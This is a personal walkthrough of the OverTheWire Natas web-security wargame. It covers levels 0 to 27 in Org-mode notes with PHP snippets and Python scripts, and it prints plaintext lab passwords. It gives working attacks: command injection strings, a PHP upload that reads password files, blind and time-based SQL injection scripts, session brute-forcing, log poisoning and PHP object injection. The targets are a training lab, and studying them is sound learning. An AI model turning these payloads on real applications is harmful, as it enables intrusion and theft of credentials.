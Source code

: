 * 0
  simple view source
* 1
  right click disabled. Same.
* 2
  see source. there is a png file.
  try to access ~/files~
  there is a directory listing. password to next level in ~users.txt~
* 3
  not even google will find it this time
  look at ~/robots.txt~ found ~/s3cr3t~ directory disallowed.
  just go and look
* 4
  authorized user should come from xxx
  use Tamper Chrome
  change the Referer header
* 5
  ~loggedin~ cookie. just set to 1
  I used EditThisCookie from Chrome
* 6
  view source. See secret is in ~/includes/secret.inc~
  submit the secret
* 7
  see there's a page parameter
  try giving it some file path ~/etc/natas_webpass/natas8~
  it just works
* 8
  similar to 6. given cipher and encoding method. find decoded message.
  just reverse it.
  (i used c source block because php has no syntax highlighting)
  #+BEGIN_SRC c
  $encoded="3d3d516343746d4d6d6c315669563362";
  print base64_decode(strrev(hex2bin($encoded)));
  #+END_SRC
* 9
  They are using ~grep -i $key dictionary.txt~
  just give it ~;cat /etc/natas_webpass/natas10;~
* 10
  ~;~ and ~&~ are filtered
  can still give ~grep~ multiple files to search
  ~1 /etc/natas_webpass/natas11~
  (since pass should contain some number but dictionary doesn't)
* 11
  xor decrypts cookie
  #+BEGIN_SRC c
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    $cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D";
    function xor_s($a,$b){
      $out="";
      for($i=0;$i<strlen($a);$i++){
        $out .= $a[$i] ^ $b[$i];
      }
      return $out;
    }
    print xor_s(json_encode($defaultdata),base64_decode($cookie));
  #+END_SRC
  use above to get the key "qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq"
  add that to original script
  #+BEGIN_SRC c
  $defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }
  function printData($d) {
      print base64_encode(xor_encrypt(json_encode($d)));
  }
  printData($defaultdata);
  #+END_SRC
  Just replace cookie with output from this and done.
* 12
  We upload a file. The server displays a link to it. replace the filename with random string but extension unchanged.
  Create a php file:
  #+BEGIN_SRC c
  <?php  
  $pass = fopen("/etc/natas_webpass/natas13","r");
  echo fread($pass,filesize("/etc/natas_webpass/natas13"));
  fclose($pass);
  ?>
  #+END_SRC
  upload it. use tamper data to change the extension to php. (so the server will execute the php)
* 13
  same as before but use ~exif_imagetype~ which checks the first few bytes.
  just prepend the file from previous one by the magic number of , eg. png
  ~(echo $'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a' | cat - natas12.php > natas13.php)~
  Then repeat last level
* 14
  basic sql injection ~(" or 1=1 -- )~
* 15
  First, check that natas16 exists.
  ~(natas16" and length(password)=32 -- )~ verifies that the password is of length 32
  Write a script to use SUBSTRING(string,pos,len) (pos is 1-indexed) to deduce the password of natas16. The server is using MySql.
  Need to handle authentication. Be careful of the case sensitivity
  #+BEGIN_SRC python
  import requests
  host="http://natas15.natas.labs.overthewire.org"
  postdata=dict()
  postdata['username']='natas16'
  username="natas15"
  password="AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
  r = requests.post(host,data=postdata,auth=(username,password))

  pass_len = 32
  chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
  ans = ""
  for i in range(1,pass_len+1):
      for c in chars:
          postdata['username']='natas16" and SUBSTRING(password,'+str(i)+',1)="'+str(c)+'" COLLATE latin1_bin -- '
          r = requests.post(host,data=postdata,auth=(username,password))
          if "exists" in r.text:
              print str(i)+"th character is " + str(c)
              ans += c
              break
      else:
              print "character failed"
              break
  print ans
  #+END_SRC
* 16
  similar to 10. filtered ~(;|&`'")~
  Also added quotes around key
  Can still use ~$()~. can make use of the fact that ~grep -L~ will print the name of the file that DOES NOT match.
  So try each character. If matched, nothing will be printed (so if we attach something else after that, that will match), otherwise, nothing will be printed (since ~/etc/xxxx/xxx~ is not in the dictionary)
  #+BEGIN_SRC python
  import requests
  chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
  username="natas16"
  password="WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
  host="http://natas16.natas.labs.overthewire.org"
  ans = ""
  data = dict()
  data['submit']= 'Search'
  while True:
      for c in chars:
          data['needle']='$(grep -L ^'+ans+str(c)+'.* /etc/natas_webpass/natas17)hackers'
          r = requests.get(host,params=data,auth=(username,password))
          if "hackers" in r.text:
              print "success "+c
              ans += c
              break
      else:
          break
  print ans
  #+END_SRC python
* 17
  SQL injection again. But no output. Use time-based blind injection. ~requests~ has a timeout feature which is handy
  weirdly it fails in the middle a couple of times. I have to output intermediate result and adjust starting point
  Also, at first I got the wrong answer due to some bad network condition. It is correct after I increased the timeout
  #+BEGIN_SRC python
  import requests

  def query(i,c):
      return 'natas18" and if(substring(password collate latin1_bin,'+str(i)+',1)="'+str(c)+'",sleep(500),null) -- '

  chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
  username="natas17"
  password="8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"

  host="http://natas17.natas.labs.overthewire.org"
  ans=""
  data=dict()
  for i in range(1,33):
      for c in chars:
          data['username']=query(i,c)
          try:
              r = requests.post(host,data=data,auth=(username,password),timeout=10)
          except requests.exceptions.Timeout:
              print str(i),ans
              ans+=c
              break
      else:
          print "failed.."
          break
  print ans
  #+END_SRC
* 18
  Session ID 1-640
  There must be some session with admin logged in.
  bruteforce every possible session
  #+BEGIN_SRC python
import requests

host="http://natas18.natas.labs.overthewire.org"

username="natas18"
password="xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"

cookies=dict()
for i in range(0,641):
    print i
    cookies['PHPSESSID']=str(i)
    r = requests.get(host,cookies=cookies,auth=(username,password))
    if not "regular" in r.text:
        print r.text
        break
  #+END_SRC
* 19
  Need to notice that session id is replaced by the form of "id-username" all in ascii hex. try all possible combinations with "admin" as username
  #+BEGIN_SRC python
import requests

host="http://natas19.natas.labs.overthewire.org"

username="natas19"
password="4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"

cookies=dict()
def gencookie(i):
    cookie=str(i)+"-admin"
    return cookie.encode("hex")
# backwards. hopefully will be faster
for i in range(640,-1,-1):
    print i
    cookies['PHPSESSID']= gencookie(i)
    r = requests.get(host,cookies=cookies,auth=(username,password))
    if not "regular" in r.text:
        print r.text
        break

  #+END_SRC
* 20
  Read the source code. it saves the session info in a file in the format of ~key value\n~ So if value contains ~\n~ it will be recognised as another key-value pair on next read.
  give it ~http://natas20.natas.labs.overthewire.org/index.php?debug=true&name=admin%0Aadmin%201~
  (~%0A~ is urlencoded linebreak). (since read precedes write, need to access the above url twice.)
* 21
  still session attack.
  two websites colocate on the same server.
  Set the session to be the same so they modify the same session file.
  in the second website, intercept the post request and add one field : ~admin=1~ this changes the session file for the first one as well.
* 22
  If not logged in as admin, server sends a ~Location: /~ header to the browser to redirect to first page.
  just add ~revelio=xxx~ and intercept the first response
  use ~curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ "http://natas22.natas.labs.overthewire.org/?revelio=true~
  or the following python code (note requests by default handles redirection. So need to use history
  #+BEGIN_SRC python
import requests
username="natas22"
password="chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ"
host="http://natas22.natas.labs.overthewire.org/"
r = requests.get(host,params={'revelio':"true"},auth=(username,password))
print r.history[0].text
  #+END_SRC
* 23
  See the code. If password contains "iloveyou" and greater than 10 when evaulated as integer, print the ans.
  From PHP manual, empty string is false. otherwise it is true.
  the first portion of string is considered as integer.
  so give it "100iloveyou"
* 24
  print out the password if ~!strcmp($_REQUEST["passwd"],"<censored>")~
  in ~strcmp~ manual, it will return ~NULL~ (which is false) if an array is passed in.
  so give it ~?passwd[]=a~
  (php will read such queries as arrays)
  see http://php.net/manual/en/function.parse-str.php
* 25
  server writes request into a log file
  also includes a file based on request parameters. 
  filters ~../~ but not recursively so just give ~....//~
  disables ~natas_webpass~ so we send php code in User Agent header, wait for it to be logged in a file (which we know the exact path), and display that in the request. ~http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//tmp/natas25_vqese2k5uncc5ghri4a2ejpbg1.log~
  send ~echo file_get_contents("/etc/natas_webpass/natas26")~ in user agent
* 26
  Read this: https://www.owasp.org/index.php/PHP_Object_Injection
  We see in ~drawfromuserdata~ it reads from cookie and perform ~unserialize~ directly on the cookie.
  We can create an object and create a php file which reads the password and simply navigate to the php file.
  Note: no trailing new lines in the cookie
  #+BEGIN_SRC c++

<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        // Note use single quotes since serialize by default use double quotes
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27')?>";
        $this->logFile = "img/test.php";

        // write initial message
        // $fd=fopen($this->logFile,"a+");
        // fwrite($fd,$initMsg);
        // fclose($fd);
    }

    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }

    function __destruct(){
        // write exit message
        ;
    }
}
$logger = new Logger;
echo serialize($logger);
echo base64_encode(serialize($logger));
?>
  #+END_SRC
* 27
  Key thing to note here: we want to get into user ~natas28~. New user will get created if doesn't exist in the database. The database gets cleared every 5 minutes (a comment at the top). ~dumpData~ writes all rows matching a username. Wonder what will happen if we create the user natas28 before they did.
  #+BEGIN_SRC python
import requests

host = "http://natas27.natas.labs.overthewire.org/"
username="natas27"
password="55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ"
data=dict()
data["username"]="natas28"
data["password"]="test"
r = requests.post(host,data=data,auth=(username,password))
print r.text
print "==================================="
while "Wrong" in r.text:
    try:
        r = requests.post(host,data=data,auth=(username,password))
    except requests.exceptions.ConnectionError:
        print "connection error"
print r.text
  #+END_SRC
  Run the script. Until it says user natas28 is created. Then just login using the credentials and check the password
* 28
